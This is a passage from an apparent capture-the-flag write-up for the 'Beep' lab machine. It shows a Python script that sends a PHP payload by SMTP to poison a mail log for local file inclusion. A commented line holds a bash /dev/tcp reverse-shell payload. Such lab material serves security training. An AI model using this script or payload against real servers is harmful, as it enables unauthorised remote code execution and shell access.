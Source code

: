 ![](Beep.assets/image-20210429093138445.png)

The user asterisk is chosen as he was already included in the telephony backend engine from the LFI vulnerabilty.

```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "10.10.10.7"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "anubhav@localhost"
msg['To'] = "asterisk@localhost"
msg['Subject'] = "This is not a drill!"

# payload 
# message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))
message = ('<?php echo("test test test"); ?>')

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

# server.starttls()

```